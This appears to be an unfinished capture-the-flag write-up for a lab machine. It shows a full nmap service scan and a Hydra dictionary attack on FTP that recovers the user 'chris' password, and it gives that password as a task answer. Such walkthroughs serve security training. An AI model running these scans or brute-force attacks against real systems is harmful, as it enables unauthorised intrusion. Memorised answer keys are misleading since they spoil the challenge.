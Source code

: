 You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.


### TASk 1 : Enumerate

Enumerate the machine and get all the important information

**NMAP**

`
ashik@whitedevil:~$ nmap -sV -A -vv 10.10.188.185  
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-14 11:06 IST  
NSE: Loaded 151 scripts for scanning.  
NSE: Script Pre-scanning.  
NSE: Starting runlevel 1 (of 3) scan.  
Initiating NSE at 11:06  
Completed NSE at 11:06, 0.00s elapsed  
NSE: Starting runlevel 2 (of 3) scan.  
Initiating NSE at 11:06  
Completed NSE at 11:06, 0.00s elapsed  
NSE: Starting runlevel 3 (of 3) scan.  
Initiating NSE at 11:06  
Completed NSE at 11:06, 0.00s elapsed  
Initiating Ping Scan at 11:06  
Scanning 10.10.188.185 \[2 ports\]  
Completed Ping Scan at 11:06, 0.41s elapsed (1 total hosts)  
Initiating Parallel DNS resolution of 1 host. at 11:06  
Completed Parallel DNS resolution of 1 host. at 11:06, 0.01s elapsed  
Initiating Connect Scan at 11:06  
Scanning 10.10.188.185 \[1000 ports\]  
Discovered open port 21/tcp on 10.10.188.185  
Discovered open port 22/tcp on 10.10.188.185  
Discovered open port 80/tcp on 10.10.188.185  
Increasing send delay for 10.10.188.185 from 0 to 5 due to max\_successful\_tryno increase to 4  
Increasing send delay for 10.10.188.185 from 5 to 10 due to max\_successful\_tryno increase to 5  
Completed Connect Scan at 11:07, 50.99s elapsed (1000 total ports)  
Initiating Service scan at 11:07  
Scanning 3 services on 10.10.188.185  
Completed Service scan at 11:07, 6.85s elapsed (3 services on 1 host)  
NSE: Script scanning 10.10.188.185.  
NSE: Starting runlevel 1 (of 3) scan.  
Initiating NSE at 11:07  
Completed NSE at 11:07, 11.03s elapsed  
NSE: Starting runlevel 2 (of 3) scan.  
Initiating NSE at 11:07  
Completed NSE at 11:07, 1.66s elapsed  
NSE: Starting runlevel 3 (of 3) scan.  
Initiating NSE at 11:07  
Completed NSE at 11:07, 0.00s elapsed  
Nmap scan report for 10.10.188.185  
Host is up, received syn-ack (0.36s latency).  
Scanned at 2021-06-14 11:06:21 IST for 71s  
Not shown: 995 closed ports  
Reason: 995 conn-refused  
PORT      STATE    SERVICE     REASON      VERSION  
21/tcp    open     ftp         syn-ack     vsftpd 3.0.3  
22/tcp    open     ssh         syn-ack     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKK  
jKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFx  
tMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r  
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5j  
qnAQa0ihI6IDtQUimgvooZCLNl6ob68=  
|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)  
|\_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt  
80/tcp    open     http        syn-ack     Apache httpd 2.4.29 ((Ubuntu))  
| http-methods:    
|\_  Supported Methods: GET HEAD POST OPTIONS  
|\_http-server-header: Apache/2.4.29 (Ubuntu)  
|\_http-title: Annoucement  
1272/tcp  filtered cspmlockmgr no-response  
27353/tcp filtered unknown     no-response  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux\_kernel  
  
NSE: Script Post-scanning.  
NSE: Starting runlevel 1 (of 3) scan.  
Initiating NSE at 11:07  
Completed NSE at 11:07, 0.00s elapsed  
NSE: Starting runlevel 2 (of 3) scan.  
Initiating NSE at 11:07  
Completed NSE at 11:07, 0.00s elapsed  
NSE: Starting runlevel 3 (of 3) scan.  
Initiating NSE at 11:07  
Completed NSE at 11:07, 0.00s elapsed  
Read data files from: /usr/bin/../share/nmap  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 71.49 seconds
`


**HYDRA**

`
ashik@whitedevil:~$ hydra -t 4 -l chris -P rockyou.txt ftp://10.10.188.185  
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-14 11:42:04  
\[DATA\] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task  
\[DATA\] attacking ftp://10.10.188.185:21/  
\[STATUS\] 56.00 tries/min, 56 tries in 00:01h, 14344342 to do in 4269:09h, 4 active  
\[STATUS\] 57.00 tries/min, 171 tries in 00:03h, 14344227 to do in 4194:14h, 4 active  
\[21\]\[ftp\] host: 10.10.188.185 login: chris password: crystal
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-14 11:46:28
`

1. FTP password

*ANSWER:* crystal

2. Zip file password

3. steg password
